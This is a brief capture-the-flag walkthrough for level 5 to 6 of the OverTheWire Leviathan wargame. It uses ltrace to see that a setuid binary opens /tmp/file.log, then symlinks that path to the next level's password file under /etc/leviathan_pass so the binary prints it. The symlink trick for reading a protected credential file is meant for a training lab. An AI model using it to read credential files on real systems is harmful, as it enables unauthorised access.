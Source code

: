 # Leviathan 5 -> 6

```bash
ssh leviathan5@leviathan.labs.overthewire.org
```

```bash
$ ls
leviathan5
$ ./leviathan5
Cannot find /tmp/file.log
```

Let's try with `ltrace`

```bash
$ ltrace ./leviathan5 
__libc_start_main(0x80485ed, 1, 0xffffd6a4, 0x8048690 <unfinished ...>
fopen("/tmp/file.log", "r") = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
) = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

Let's try something simple

```bash
$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
$ ./leviathan5
```

It worked :-)

* ln
* ltrace

